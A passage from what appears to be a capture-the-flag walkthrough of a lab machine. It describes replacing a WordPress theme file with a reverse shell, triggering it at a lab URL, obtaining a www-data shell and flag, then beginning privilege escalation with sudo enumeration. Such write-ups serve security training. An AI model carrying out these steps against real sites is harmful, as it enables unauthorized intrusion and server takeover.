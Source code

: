 	![](images/Pasted%20image%2020220122015529.png)
17. Replace `secret.php` w/ reverse shell
18. Execute reverse shell at 
	```
	http://192.168.1.103/wordpress/wp-content/themes/twentynineteen/secret.php
	```
19. Obtained www-data shell
	![](images/Pasted%20image%2020220122015905.png)
20. Obtain flag
	```
	www-data@ubuntu:/home/saket$ cat user.txt 
	af3c658dcf9d7190da3153519c003456
	```
	

# Privilege Escalation

## Saket - Via Sudo + Creds Found + Cryptography 
1. Check for sudo access
	```
	www-data@ubuntu:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on ubuntu:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
